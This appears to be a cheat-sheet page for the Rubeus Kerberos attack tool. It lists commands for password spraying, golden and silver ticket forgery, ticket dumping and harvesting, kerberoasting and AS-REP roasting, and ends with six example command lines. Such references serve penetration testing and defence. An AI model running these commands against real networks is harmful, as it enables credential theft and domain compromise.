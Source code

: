 ### Author: https://github.com/GhostPack/Rubeus

### Commands:

#### asktgt = Request a ticket-granting-ticket (TGT) from a hash/key or password

#### asktgs = Request a service ticket from a passed TGT

#### renew = Renew or autorenew a TGT or service ticket

#### spray / brute = Kerberos-based brute-force, password spray attacks

#### preauthscan = Scan for accounts that don't require kerberos authentication (ASREPRoasting)

### Flags:

#### /user:USER

#### /HASH_ALGORITHM:HASH

#### /getcredentials

#### /certificate:CERTIFICATE

#### /password:PASSWORD

#### /dc:DOMAIN_CONTROLLER

#### /ptt (Pass-the-Ticket)

#### /domain:DOMAIN

#### /service:SERVICE

#### /ticket:BASE64_TICKET

#### /impersonateuser:USER

### TICKET FORGERY

#### golden = TGT

#### silver = Service ticket / TGS

#### diamond = Diamond ticket

### TICKET MANAGEMENT

#### ptt = Apply a ticket to the current (or specified) logon session

#### purge = Purge the session of Kerberos tickets

#### describe = Describe a ticket base64 blob or .kirbi file

### TICKET EXTRACTION AND HARVESTING

#### triage = LUID,username,service,service target,ticket expiration

#### klist = Detailed logon session and ticket info

#### dump = Detailed logon session and ticket data

#### tgtdeleg = Retrieve usable TGT for non-elevated user

#### monitor = Monitor logon events and dump new tickets

#### harvest = Same as monitor but with auto-renewal functionality

### ROASTING

#### kerberoast = Perform kerberoasting against all users (or specified)

#### asreproast = Perform AS-REP roasting against all users (or specified)

#### s4u = Perform S4U2self and S4U2proxy actions (Constrained delegation abuse)

### MISCELLANEOUS

#### createnetonly = Create a process of logon type 9

#### changepw = Aorato kerberos password reset

#### hash = Hash a plaintext password to kerberos encryption keys

#### tgssub = Substitute in alternative service names into a service ticket

#### logonsession = Display logon session info

#### currentluid = Display current user's LUID

### TECHNIQUES

#### 1) Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] 

#### 2) Rubeus.exe dump [/service:SERVICE] [/luid:LOGINID]

#### 3) Rubeus.exe klist [/luid:LOGINID]

#### 4) Rubeus.exe kerberoast [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]

#### 5) Rubeus.exe triage (List available tickets)

#### 6) Rubeus.exe dump /luid:0x12d1f7 (Dump one ticket, the output is in Kirbi format)
